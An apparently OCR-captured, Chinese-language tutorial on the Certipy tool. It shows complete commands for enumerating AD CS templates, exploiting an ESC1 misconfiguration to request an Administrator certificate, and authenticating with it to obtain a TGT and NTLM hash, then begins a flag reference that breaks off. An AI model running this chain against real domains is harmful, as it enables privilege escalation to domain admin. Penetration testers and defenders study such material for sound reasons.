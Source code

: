 > 大多数 Certipy 命令接受常见的连接选项（如 `-dc-ip`、`-u`/`-p` 用于凭据、`-hashes` 用于传递哈希、`-k` 用于来自 ccache 的 Kerberos 等）。这允许灵活的身份验证方法。例如，可以将 `-hashes` 与 NTLM 哈希一起使用，或将 `-aes` 与 Kerberos AES 密钥一起使用，以便在不知道明文密码的情况下进行身份验证。

## 使用示例 && 情形

### AD CS 枚举

攻击者运行 `certipy find` 以发现任何易受攻击的配置，查询 LDAP 的证书模板和 CA 对象。输出（控制台或文本文件）将列出所有模板、其设置，并标记任何错误配置。

certipy find \  
    -u 'attacker@corp.local' -p 'Passw0rd!' \  
    -dc-ip '10.0.0.100' -text \  
    -enabled -hide-admins

> `-hide-admins` 标志省略了列出默认管理员权限以减少噪音

### 证书请求

假设查找输出在域用户可以注册的模板上显示 **ESC1**

certipy req \  
    -u 'attacker@corp.local' -p 'Passw0rd!' \  
    -dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \  
    -ca 'CORP-CA' -template 'UserTemplate' \  
    -upn 'Administrator@corp.local' -sid 'S-1-5-21-...-500'F

> `-ca 'CORP-CA'` 指定 CA 名称，`-target 'CA.CORP.LOCAL'` CA DNS 名称

### 身份验证

Certipy 将加载 PFX，执行 PKINIT 以获取管理员的 Kerberos TGT，甚至尝试检索 NTLM 哈希

certipy auth -pfx 'administrator.pfx' -dc-ip '10.0.0.100'

# Certipy命令全解

## 简单翻译版面

### `account`

**Manage AD user/computer accounts** Usage: `certipy account [create|read|update|delete] -user <SAMName> [options]` **管理 AD 用户/计算机帐户** 用法： `certipy account [create|read|update|delete] -user <SAMName> [options]`

Key Flags: 关键标志：

- `-group <CN=Group,...>` - Group to add the account to `-group <CN=Group,...>` - 要将帐户添加到的组
    
- `-dns <hostname>` - Set dNSHostName `-dns <hostname>` - 设置 dNSHostName
    
- `-upn <user@domain>` - Set UserPrincipalName `-upn <user@domain>` - 设置 UserPrincipalName
    
- `-sam <NewSAM>` - Set new SAM name `-sam <NewSAM>` - 设置新的 SAM 名称
    